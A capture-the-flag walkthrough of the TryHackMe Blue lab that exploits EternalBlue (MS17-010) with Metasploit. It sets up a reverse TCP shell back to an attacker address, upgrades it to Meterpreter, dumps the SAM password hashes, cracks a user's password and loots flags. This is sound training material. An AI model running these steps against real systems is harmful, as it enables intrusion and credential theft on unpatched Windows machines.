# TryHackMe Blue room walkthrough

The machine in the Blue room is vulnerable to the infamous ms17-010 (EternalBlue) exposed by the ShadowBrokers.

```bash
# let's initialize the postgresql database on the AttackBox
$ systemctl start postgresql
$ msfconsole
```

We start by scanning the open ports on the target machine and saving the results to the postgres database



We know the machine is vulnerable to EternalBlue so we can select it without running the scan first.

```bash
msf6> use exploit/windows/smb/ms17_010_eternalblue
```

For the sake of learning we should challenge ourself and select a non-meterpreter payload

```bash
msf6> set payload windows/x64/shell/reverse_tcp
# hack the planet!
msf6> exploit
```

We get the DOS shell



We should escalate our privileges by upgrading the command shell into Meterpreter. We background the shell (Ctrl+Z) and select a post-exploitation module.

```bash
msf6> use post/multi/manage/shell_to_meterpreter
```



```bash
# set the options and run the module
msf6> set LHOST 10.66.108.82
msf6> set SESSION 2
msf6> run
```

We get the Meterpreter session





But just because we are system doesn't mean our process is. Let's find a process that is running at NT AUTHORITY\SYSTEM



Let's migrate to the powershell process with the PID 3056 and dump the SAM



We want to obtain the password of the user `Jon`. Let's try cracking the password using john the ripper with the rockyou wordlist first.



No success. Let's look up the hash from a rainbow table at CrackStation.



Success! The rainbow table contains the hash and now we have obtained the credentials `Jon:alqfna22`.

There are 3 flags planted on the machine. For the first one we get the following hint: *This flag can be found at the system root.*



That was straightforward. Onto the next flag. We get the hint: *This flag can be found at the location where passwords are stored within Windows*

Also straightforward. SAM is located in *system32/config/SAM*.

```bash
meterpreter> cd "c:\Windows\System32\config"
meterpreter> ls
```



Onto the final flag. We get the hint: *This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.*

hmmm...I bet the flag is somewhere in *c:\Users\Jon*. Let's see. 



No immediate luck. Let's see the Documents.



And there it is. All flags are found. We could have just searched for the flags by running

```bash
# this would print out all file locations for the flags
meterpreter> search -f flag*.txt
```

but the hints suggested that we should do some manual digging just for the fun of it.

THM Blue room complete. Hack the planet!